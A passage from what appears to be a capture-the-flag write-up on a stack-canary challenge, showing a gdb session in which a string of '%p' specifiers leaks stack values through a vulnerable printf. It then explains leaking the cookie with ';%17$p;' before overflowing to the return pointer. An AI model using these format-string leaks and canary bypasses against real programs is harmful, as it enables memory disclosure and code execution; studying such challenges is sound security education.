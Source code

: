 Next, we can set a breakpoint after the format string vulnerable printf, and leak some pointers off the stack to get an idea of where the stack cookie lies. 

```
(gdb) b *0x0000000000400933
Breakpoint 1 at 0x400933
(gdb) r
Starting program: /pwn/canary 
Cock-a-doodle-doo! Cock-a-doodle-doo!

        .-"-.
       / 4 4 \
       \_ v _/
       //   \\
      ((     ))
=======""===""=======
         |||
         '|'

Ahhhh, what a beautiful morning on the farm!
And my canary woke me up at 5 AM on the dot!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Hi! What's your name? %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
Nice to meet you, 0x7fffffffbf60 0x69 0xffffffffffffff95 0x7ffff7fec700 0x12 0x7025207025207025 0x2520702520702520 
0xa2120 0x7025207025207025 0x2520702520702520 0x7025207025207025 0x7025207025207025 0x2520702520702520 
0x4009d0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa2120 
0x7fffffffe750 (nil) 0x4009d0 0x7ffff7a2d830 0x1 0x7fffffffe758 0x1f7ffcca0 0x400957 (nil) 0xae2858ef526f2176 
0x4006a0 0x7fffffffe750 (nil) (nil) 0x51d7a7908ccf2176 0x51d7b72aee1f2176 !
Anything else you want to tell me? 

Breakpoint 1, 0x0000000000400933 in greet ()

(gdb) x/xg $rbp-0x8
0x7fffffffe648:	0x2070252070252070
(gdb) 
```

Now that we know that the stack cookie lies in the 17th position we can leak it more efficiently with something like `;%17$p;`. The 17 will reference what printf thinks to be the 17th parameter (but we know it is just the stack cookie). Keep in mind that the semi colons here are just arbitrary characters that will make it easier to grab the stack cookie in out exploit. Finally, we can use GDB to find the amount of characters we need to write to hit the return pointer.
